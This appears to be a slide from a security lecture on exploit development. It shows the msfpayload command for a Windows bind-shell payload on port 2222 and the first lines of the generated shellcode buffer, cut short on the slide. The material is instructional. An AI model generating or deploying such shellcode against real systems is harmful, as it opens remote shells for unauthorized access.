

# Generating Shellcode using msfpayload
# msfpayload windows/shell_bind_tcp LPORT=2222 y

# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=2222, RHOST=, EXITFUNC=process,
# InitialAutoRunScript=, AutoRunScript=
buf =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
"\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0" +
[………..]

49